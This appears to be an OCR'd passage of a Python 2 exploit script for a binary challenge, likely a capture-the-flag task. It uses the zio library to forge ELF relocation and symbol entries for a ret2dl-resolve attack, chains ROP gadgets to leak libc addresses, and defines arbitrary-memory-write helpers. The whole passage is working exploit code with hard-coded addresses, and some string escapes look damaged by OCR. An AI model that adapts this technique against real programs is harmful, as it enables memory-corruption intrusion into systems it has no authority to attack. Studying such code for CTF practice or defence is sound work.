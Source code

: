 ```
    t1 = Thread(target=run_recv)
    t1.start()
    while True:
        d = raw_input()
        if d != '':
            io.writeline(d)
 
def write_16byte(io, addr, value):
    io.write('a'*0x10+l64(addr+0x10)+l64(0x400582))
    io.write(value+l64(0x601f00)+l64(0x400582))
 
fake_relro = ''
fake_sym = ''
 
#link_map_addr = 0x00007ffff7ffe1c8 #close aslr.(if has aslr, need leak)
 
#link_map_addr = 0x7ffff7ffe168
def generate_fake_relro(r_offset, r_sym):
    return l64(r_offset) + l32(7)+l32(r_sym)+ l64(0)
 
def generate_fake_sym(st_name):
    return l32(st_name)+l8(0x12)+l8(0) + l16(0) + l64(0) + l64(0)
 
 
#versym = 0x40031e
symtab = 0x4002b8
strtab = 0x400330
jmprel = 0x4003b8
 
bss_addr = 0x601058
 
# .bss addr = 0x601058
# 0x155dc*0x18+0x4003b8 = 0x601058
# so index = 0x155dc
 
#0x155e8*0x18+0x4002b8 = 0x601078
# so r_sym = 0x155e8
 
# 0x200d68 + 0x400330 = 0x601098
# so st_name = 0x200d68
 
 
def write_any(io, addr, value):
    print hex(addr), hex(value)
    io.read_until(':n')
    io.writeline('0')
    io.write(l64(addr)+l64(value))
 
def exp(target):
    io = zio(target, timeout=10000, print_read=COLORED(RAW, 'red'), print_write=COLORED(RAW, 'green'))
    pop_rdi_ret = 0x0000000000400603
    pop_rsi_r15_ret = 0x0000000000400601
    leak_addr = 0x600ef0
    write_plt = 0x0000000000400430
    pop_rbp_ret = 0x4004d0
    leak_rop = l64(pop_rsi_r15_ret) + l64(leak_addr) + l64(0) + l64(pop_rdi_ret) + l64(1) + l64(write_plt)
    leak_rop += l64(pop_rbp_ret) + l64(0x601f00) + l64(0x400582)
 
    for i in range(0, len(leak_rop), 8):
        write_16byte(io, 0x601b00+i, leak_rop[i:i+8]+'x00'*8)
 
```